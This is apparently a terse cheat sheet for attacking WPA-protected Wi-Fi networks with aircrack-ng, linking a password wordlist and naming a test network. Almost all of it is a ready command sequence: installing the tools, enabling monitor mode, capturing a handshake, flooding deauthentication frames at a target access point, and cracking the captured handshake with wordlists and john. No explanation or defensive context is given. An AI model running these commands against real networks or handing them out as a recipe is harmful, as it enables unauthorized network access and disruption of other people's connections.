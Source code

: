 https://github.com/danielmiessler/SecLists/raw/master/Passwords/WiFi-WPA/probable-v2-wpa-top4800.txt

ssid: UnsuspiciousNetwork
pw: p4ssword


install deps:

$ sudo apt-get install build-essential libssl-dev libnl-3-dev pkg-config libnl-genl-3-dev


install aircrack (or use package manager):

$ wget http://download.aircrack-ng.org/aircrack-ng-1.2-rc4.tar.gz  -O - | tar -xz
$ cd aircrack-ng-1.2-rc4
$ sudo make
$ sudo make install


set up monitor mode

$ sudo airmon-ng check kill
$ sudo airmon-ng start wlan0


start sniffing

$ sudo airodump-ng wlan0mon
$ sudo airodump-ng -c 1 --bssid 00:11:22:33:44:55 -w WPAcrack wlan0mon --ignore-negative-one


deauth

$ sudo aireplay-ng --deauth 100 -a 00:11:22:33:44:55 wlan0mon --ignore-negative-one


turn off monitor mode

$ sudo airmon-ng stop wlan0mon


crack pw

$ aircrack-ng -w wordlist.dic -b 00:11:22:33:44:55 WPAcrack.cap
$ john --session=foo --stdout --incremental | aircrack-ng -w - -b 00:11:22:33:44:55 WPAcrack.cap
$ john --restore=foo | aircrack-ng -w - -b 00:11:22:33:44:55 WPAcrack.cap
